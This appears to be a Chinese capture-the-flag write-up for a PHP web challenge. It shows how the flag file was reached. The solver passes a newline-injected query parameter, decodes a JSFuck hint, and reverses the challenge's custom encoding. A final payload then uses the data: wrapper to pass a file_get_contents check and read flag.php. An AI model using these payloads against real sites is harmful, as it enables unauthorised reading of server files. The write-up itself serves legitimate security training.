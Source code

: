 payload:
```
?b.u.p.t=23333%0a
```

回显：FLAG is in secrettw.php

发现一大段jsfuck，输入到浏览器console

弹框：post me Merak

得到：
```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?> 
```

解密脚本：
```php
<?php
function dechange($v){ 
    
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return $re; 
}

$a=dechange('flag.php');
echo base64_encode($a);
?>
```
payload: 利用data协议
```
secrettw.php?2333=data:,todat%20is%20a%20happy%20day&file=ZmpdYSZmXGI=
```
